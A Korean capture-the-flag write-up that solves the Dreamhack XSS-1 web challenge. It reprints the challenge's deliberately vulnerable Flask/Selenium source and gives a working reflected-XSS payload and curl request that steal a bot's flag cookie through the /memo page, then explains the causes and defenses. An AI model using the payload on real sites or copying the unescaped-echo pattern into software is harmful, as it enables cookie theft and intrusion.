 ```yaml
---
title: "[CTF] 드림핵 XSS-1"
date: 2025-09-18 18:05:00 +0900
categories: [CTF, Web]
tags: [CTF, XSS]
description: "드림핵 XSS-1"
author: "송지민"
toc: true
---
```


## 문제 개요
문제는 플라스크로 구현된 간단한 웹앱이었고, 내부에서 셀레니움을 돌려서 특정 URL을 방문시키는 로직이 있었다. `/vuln`, `/memo`, `/flag` 세 페이지를 확인했을 때 취약점은 명확했다.

- `/vuln?param=...` : param 값을 검증/이스케이프 없이 그대로 출력 (반사형 XSS 가능)
- `/memo?memo=...` : 전달된 memo 값을 누적해서 저장하고 출력
- `/flag` : POST로 받은 `param`을 내부 함수로 셀레니움 봇에게 전달 (봇은 `flag` 쿠키를 가지고 있음)

아래는 문제에서 제공된 **원본 소스코드 전체**다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template
from selenium import webdriver
from selenium.webdriver.chrome.service import Service
import urllib
import os

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open("./flag.txt", "r").read()
except:
    FLAG = "[**FLAG**]"


def read_url(url, cookie={"name": "name", "value": "value"}):
    cookie.update({"domain": "127.0.0.1"})
    try:
        service = Service(executable_path="/chromedriver")
        options = webdriver.ChromeOptions()
        for _ in [
            "headless",
            "window-size=1920x1080",
            "disable-gpu",
            "no-sandbox",
            "disable-dev-shm-usage",
        ]:
            options.add_argument(_)
        driver = webdriver.Chrome(service=service, options=options)
        driver.implicitly_wait(3)
        driver.set_page_load_timeout(3)
        driver.get("http://127.0.0.1:8000/")
        driver.add_cookie(cookie)
        driver.get(url)
    except Exception as e:
        driver.quit()
        # return str(e)
        return False
    driver.quit()
    return True


def check_xss(param, cookie={"name": "name", "value": "value"}):
    url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}"
    return read_url(url, cookie)


@app.route("/")
def index():
    return render_template("index.html")


@app.route("/vuln")
def vuln():
    param = request.args.get("param", "")
    return param


@app.route("/flag", methods=["GET", "POST"])
def flag():
    if request.method == "GET":
        return render_template("flag.html")
    elif request.method == "POST":
        param = request.form.get("param")
        if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
            return '<script>alert("wrong??");history.go(-1);</script>'

        return '<script>alert("good");history.go(-1);</script>'


memo_text = ""


@app.route("/memo")
def memo():
    global memo_text
    text = request.args.get("memo", "")
    memo_text += text + "\n"
    return render_template("memo.html", memo=memo_text)


app.run(host="0.0.0.0", port=8000)
```

---

## 내가 실제로 푼 방법 (풀이 기록 — 블로그용 서술 방식)
문제를 보자마자 `/vuln`이 사용자 입력을 그대로 반환하는 걸 확인했고, `/flag`가 내부적으로 셀레니움으로 `/vuln?param=...` 을 호출함을 발견했다. 또한 그 셀레니움 봇은 `flag` 쿠키를 가지고 있었다(코드 `driver.add_cookie({"name": "flag", "value": FLAG.strip(), ...})`).

즉, 반사형 XSS로 `document.cookie`를 읽어 `/memo`에 전송하도록 만들면, 서버가 그 내용을 저장하므로 FLAG를 얻을 수 있다는 결론에 이르렀다.

### 내가 사용한 페이로드
```html
<script>location.href="/memo?memo="+document.cookie;</script>
```

### PoC 요청 (내가 실제로 보낸 curl)
```bash
curl -X POST -F 'param=<script>location.href="/memo?memo="+document.cookie;</script>' http://TARGET:8000/flag
```

설명:
- `/flag`로 POST하면 서버는 내부 `check_xss`를 호출하고, `check_xss`는 `urllib.parse.quote(param)`로 인코딩한 param을 `/vuln` URL에 넣어서 셀레니움 봇을 호출한다.
- 봇은 `flag` 쿠키가 설정된 상태로 `/vuln?param=<payload>` 를 열기 때문에, 페이지에서 스크립트가 실행되면 `document.cookie`는 FLAG 값을 포함하고, 스크립트는 `/memo?memo=<document.cookie>`로 리다이렉트해서 서버에 기록한다.
- 최종적으로 `/memo` 페이지에서 FLAG 내용을 확인했다.

---

## 재현 흐름 (짧게 정리)
1. 공격자: `POST /flag` with `param=<스크립트>`  
2. 서버: `check_xss` → `read_url` → 셀레니움 실행 → `driver.add_cookie({"name":"flag","value":FLAG})` → `driver.get("/vuln?param=<payload>")`  
3. 봇(헤드리스 크롬): `/vuln` 페이지에서 `<script>location.href="/memo?memo="+document.cookie;</script>` 실행  
4. 봇: `/memo?memo=flag=<FLAG>` 호출 → 서버의 `memo_text`에 FLAG 저장  
5. 공격자: `/memo`에서 FLAG 확인

---

## 왜 이게 가능했나 (기술적 원인)
- **반사형 XSS**: `/vuln`이 입력값에 대해 어떠한 이스케이프도 수행하지 않아 스크립트가 그대로 실행되었다.
- **봇의 쿠키 설정**: 서버가 봇에게 `flag` 쿠키를 설정했으며, 이 쿠키는 HttpOnly가 아니어서 자바스크립트로 읽을 수 있었다.
- **서버 설계 결함**: 외부에서 들어온 `param`을 검증 없이 내부 봇에 그대로 전달했다.

---

## 마무리(짧게)
이 문제는 전형적인 반사형 XSS + 내부 자동화(봇)를 결합한 케이스였다. 원리는 단순하지만, 자동화된 브라우저가 민감한 값을 클라이언트 쿠키로 가지고 있다는 점이 굉장히 위험했다. 실전에서는 **민감값을 HttpOnly 쿠키에 보관**하거나 **자동화 브라우저가 외부 입력을 임의로 열지 않도록** 설계해야 한다.

---

